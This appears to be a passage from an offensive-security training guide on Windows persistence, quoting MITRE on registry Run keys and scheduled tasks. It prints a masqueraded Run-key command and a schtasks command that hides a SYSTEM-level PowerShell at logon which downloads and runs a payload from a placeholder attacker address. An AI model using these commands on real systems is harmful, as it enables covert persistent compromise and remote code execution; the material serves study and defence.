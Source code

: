 According to MITRE, adversaries can use these configuration locations to execute malware, such as
remote access tools, to maintain persistence through system reboots. Adversaries may also use
Masquerading to make the Registry entries look as if they are associated with legitimate programs.

An example of a tool that uses this technique is the PowerSploit persistence script ( **Remeber, we do
not teach PowerSploit** ). The below code is an example of how you can leverage basic powershell to
create the key, all you need to provide is what the persistance will do for you. (Run a script, Execute
a Program, Etc.)

```
New-ItemProperty -path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -name
"Updater" -PropertyType expandstring -value 'C:\Windows\System32\cmd.exe /c calc.exe'
-force
```
_Sources:_

- Run and RunOnce Registry Keys
- Registry Run Keys / Startup Folder
- Masquerading


**Scheduled Tasks**

MITRE States:

Utilities such as at and schtasks, along with the Windows Task Scheduler, can be used to schedule
programs or scripts to be executed at a date and time. A task can also be scheduled on a remote
system, provided the proper authentication is met to use **RPC** and **file and printer sharing** is
turned on. Scheduling a task on a remote system typically requires being a member of the
**Administrators group** on the the remote system.

An adversary may use task scheduling to execute programs at system startup or on a scheduled
basis for persistence, to conduct remote Execution as part of Lateral Movement, to gain SYSTEM
privileges, or to run a process under the context of a specified account.

An example of a tool that uses this technique is the PowerSploit persistence script ( **Remeber, we do
not teach PowerSploit** ). The below code is an example of how you can leverage basic powershell to
create a scheduled task, all you need to provide is what the persistance will do for you. (Run a
script, Execute a Program, Etc.)

```
schtasks /create /tn Updater /tr
"c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo
-NonInteractive -ep bypass -nop -c 'IEX ((new-object
net.webclient).downloadstring(''http://ATTACKER-IP/PAYLOAD'''))'" /sc onlogon /ru
System
```
_Sources:_

- Scheduled Tasks

**Services**

A malicious actor can hijack an existing service or add a new one in order to maintain persistence.
When operating systems boot up, they start services that perform background system functions.
